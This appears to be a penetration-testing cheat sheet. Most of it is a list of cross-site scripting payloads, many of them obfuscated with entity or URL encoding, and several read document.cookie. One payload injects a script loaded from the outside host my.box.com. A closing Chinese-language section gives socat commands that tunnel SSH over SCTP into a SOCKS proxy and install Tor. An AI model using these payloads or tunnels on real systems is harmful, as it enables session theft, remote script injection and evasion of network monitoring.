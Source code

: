<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"">
<IMG SRC=&amp;amp;#106;&amp;amp;#97;&amp;amp;#118;&amp;amp;#97;&amp;amp;#115;&amp;amp;#99;&amp;amp;#114;&amp;amp;#105;&amp;amp;#112;&amp;amp;#116;&amp;amp;#58;&amp;amp;#97;&amp;amp;#108;&amp;amp;#101;&amp;amp;#114;&amp;amp;#116;&amp;amp;#40;&amp;amp;#39;&amp;amp;#88;&amp;amp;#83;&amp;amp;#83;&amp;amp;#39;&amp;amp;#41;>

<IMG SRC=&amp;amp;#0000106&amp;amp;#0000097&amp;amp;#0000118&amp;amp;#0000097&amp;amp;#0000115&amp;amp;#0000099&amp;amp;#0000114&amp;amp;#0000105&amp;amp;#0000112&amp;amp;#0000116&amp;amp;#0000058&amp;amp;#0000097&amp;amp;#0000108&amp;amp;#0000101&amp;amp;#0000114&amp;amp;#0000116&amp;amp;#0000040&amp;amp;#0000039&amp;amp;#0000088&amp;amp;#0000083&amp;amp;#0000083&amp;amp;#0000039&amp;amp;#0000041>
<IMG SRC="jav ascript:alert('XSS');">

perl -e 'print "<IMG SRC=javascript:alert(/"XSS/")>";' > out

<BODY onload!#$%&amp;()*~+-_.,:;?@[/|/]^`=alert("XSS")>

(">< iframes http://google.com < iframes >)

<BODY BACKGROUND="javascript:alert('XSS')">
<FRAMESET><FRAME SRC=”javascript:alert('XSS');"></FRAMESET>
"><script >alert(document.cookie)</script>
%253cscript%253ealert(document.cookie)%253c/script%253e
"><s"%2b"cript>alert(document.cookie)</script>
%22/%3E%3CBODY%20onload=’document.write(%22%3Cs%22%2b%22cript%20src=http://my.box.com/xss.js%3E%3C/script%3E%22)'%3E
<img src=asdf onerror=alert(document.cookie)>
SSH Over SCTP (使用 Socat)
# 远端服务器
# 假设你准备让 SCTP socket 监听端口 80/SCTP 并且 sshd 端口在 22/TCP
$ socat SCTP-LISTEN:80,fork TCP:localhost:22

# 本地端
# 将 SERVER_IP 换成远端服务器的地址，然后将 80 换成 SCTP 监听的端口号
$ socat TCP-LISTEN:1337,fork SCTP:SERVER_IP:80

# 创建 socks 代理
# 替换 username 和 -p 的端口号
$ ssh -lusername localhost -D 8080 -p 1337
使用洋葱网络

# 安装服务
$ apt-get install tor torsocks
